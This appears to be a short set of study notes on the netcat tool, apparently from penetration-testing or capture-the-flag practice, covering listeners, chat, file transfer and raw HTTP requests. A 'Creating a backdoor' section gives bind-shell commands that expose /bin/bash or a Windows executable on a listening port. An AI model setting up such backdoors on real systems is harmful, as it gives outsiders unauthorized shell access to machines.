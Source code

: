 
Utility tool that uses UDP and TCP connections to read and write in a network. It can be used for both attacking and security

Can debug network

Runs on all OS

**help command**
`nc -h`

**Connecting to a server**
Syntax: 
`nc Target IP Address Target Port   
`nc 192.168.17.43 21`

#### man page
https://linux.die.net/man/1/nc


### chatting
Can allow users to chat. First must establish connection

#### create listener
`nc -lvvp 4444`

[-l]: Listen Mode 
[vv]: Verbose Mode {It can be used once, but we use twice to be more verbose} 
[p]: Local Port

#### create initiator
This is the one that will connect to the listener. Use the same port etc

`nc 192.168.1.35 4444`

### Creating a backdoor

#### Linux system
`nc -l -p 2222 -e /bin/bash`

#### Windows system
`nc -l -p 1337 -e hack.exe`

This will open a listener on the system that will pipe the command shell or the Linux bash shell to the connecting system.   
`nc 192.168.1.35 2222`


### Save output to desktop

`nc 192.168.17.43 21 -v -o /root/Desktop/Result.txt`


### File transfer

For example - Transfer from windows to kali
`nc -v -w 20 -p 8888 -l file.txt`
-w timeout option
-l listen mode

### http request with NC
hacker@talking-web~level2:~$ nc 127.0.0.1 80
GET / HTTP/1.1
Host:127.0.0.1

#### http request with nc with param
nc 127.0.0.1 80
GET /?a=7fa7fdf7ff50a6f375561b704fefdda5 HTTP/1.1
### URL Encoding with NC
echo -e "GET /6d338058%20c3daa354/37e9d9f8%20fb28ad7d HTTP/1.1\r\nHost: 127.0.0.1\r\nConnection: close\r\n\r\n" | nc 127.0.0.1 80

